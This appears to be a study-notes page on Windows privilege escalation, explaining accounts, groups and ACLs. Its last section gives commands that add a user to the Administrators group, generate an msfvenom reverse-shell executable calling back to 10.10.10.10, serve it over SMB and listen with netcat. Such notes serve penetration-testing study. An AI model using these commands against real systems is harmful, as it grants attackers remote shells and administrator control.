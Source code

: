# Windows Privesc

## General concepts

### Users and groups

User accounts can belong to multiple groups, and groups can have multiple users.

> There are also pseudo groups such as "**Authenticated Users**"

> The "**SYSTEM**" account is a default service account which has the highest privileges of any local account in Windows.

> The "**Administrator**" account is created by default at install. Depending on the version of Windows, other accounts such as "**Guest**" can be created by default as well.

> Adding a user to the Administrator group: `net localgroup administrators <username> /add`


### Resources and access control

In Windows, there are multiple types of resource (also known as **objects**):

- Files / Directories
- Registry Entries
- Services

Whether a user and/or group has permission to perform a certain action on a resource depends on that resource's **Access Control List** (ACL).

Each ACL is made up of zero or more **access control entries** (ACEs).

Each ACE defines the **relationship between a principal** (e.g. a user, group) **and a certain access right** (Full control, read & execute, write, etc.).


### Uploading a reverse shell on Windows target machine

#### From Kali

```bash
# Generate a reverse shell executable
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f exe -o reverse-shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse-shell.exe
# Run a SMB server
> python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
# On another terminal, start a listener
> nc -lnvp 1234
```
